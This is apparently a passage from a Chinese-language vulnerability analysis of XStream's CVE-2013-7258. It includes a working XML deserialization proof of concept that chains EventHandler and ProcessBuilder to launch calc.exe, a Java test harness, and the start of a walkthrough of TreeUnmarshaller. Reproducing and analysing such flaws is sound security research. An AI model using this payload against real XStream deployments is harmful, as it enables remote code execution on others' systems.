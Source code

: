 ## 5\. CVE-2013-7258

**影响版本**：1.4.x-1.4.6 及 1.4.10  
**测试环境**：XStream1.4.5 JDK1.8\_66  
**复现**：  
POC

```bash
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>cmd</string>
                    <string>/C</string>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

测试文件：里面的 XML 为上面的 POC

```bash
package Xstream;

import com.thoughtworks.xstream.XStream;

public class CVE20137258 {
    public static void main(String[] args) {
        XStream xStream = new XStream();
        String xml = "";
        xStream.fromXML(xml);
    }
}
```

**分析**：  
根据前面的 fromXML 的流程，单步执行至 TreeUnmarshaller 的 start 函数

```bash
public Object start(DataHolder dataHolder) {
    this.dataHolder = dataHolder;
    // 根据 XML 的根标签获取对应的 class
    Class type = HierarchicalStreams.readClassType(this.reader, this.mapper);
    // 将对应的 class 转换成 Java 对象
    Object result = this.convertAnother((Object)null, type);
    Iterator validations = this.validationList.iterator();

    while(validations.hasNext()) {
        Runnable runnable = (Runnable)validations.next();
        runnable.run();
    }

    return result;
}
```
